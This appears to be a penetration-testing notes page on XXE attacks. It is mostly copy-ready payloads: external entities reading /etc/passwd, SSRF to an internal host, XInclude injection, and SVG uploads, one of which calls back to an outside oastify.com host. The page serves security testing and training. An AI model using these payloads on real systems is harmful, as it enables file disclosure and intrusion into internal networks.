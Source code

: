 ```yaml
---
title: "XXE"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
sidebar:
  collapsed: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
  noindex: false # false (default) or true
---
```



- If in a request you have `xml` body  like this : 
```xml
<?xml version="1.0" encoding="UTF-8"?> <stockCheck><productId>381</productId></stockCheck>
```

- You can try this attack : 
```xml 
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> <stockCheck><productId>&xxe;</productId></stockCheck>
```

- You can also performed  a SSRF :
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

- XInclude (server-side XML) : 
```sh
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

- Via file upload that accepts SVG image : 
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE foo [ <!ENTITY fetch SYSTEM "file:///etc/passwd">]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg"
xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="23" x="8" y="28">&fetch;</text>
</svg>
```

OR

```sh
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://5y4g40b6lcapqz14hupvgwkptgz7nxbm.oastify.com/" >]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

- Content-Type: From x-www-urlencoded to XML

If a POST request accepts the data in XML format, you could try to exploit a XXE in that request. For example, if a normal request contains the following:

```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

Then you might be able submit the following request, with the same result:

```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

